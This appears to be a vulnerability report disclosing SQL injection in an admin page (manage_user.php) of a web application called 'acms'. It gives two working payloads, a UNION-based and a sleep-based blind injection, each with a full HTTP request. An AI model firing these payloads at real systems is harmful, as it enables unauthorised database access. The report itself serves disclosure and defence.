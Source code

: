 BUG_Author: lizhe

Vulnerability File: /acms/admin/user/manage_user.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x32333435,0x52535455,0x62636465),null,null,null,null,null,null-- -

```
GET /acms/admin/user/manage_user.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x32333435,0x52535455,0x62636465),null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=b474rdfl9bppo3rms87201i42t
Connection: close
```

union query success

![image](https://github.com/west9b/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(20)))a) and 'c'='c

```
GET /acms/admin/user/manage_user.php?id=1%27%20and%20(select%201%20from%20(select(sleep(20)))a)%20and%20%27c%27=%27c HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=b474rdfl9bppo3rms87201i42t
Connection: close
```

Server response time is 20 seconds

![image](https://github.com/west9b/bug_report/blob/main/sql2.png)
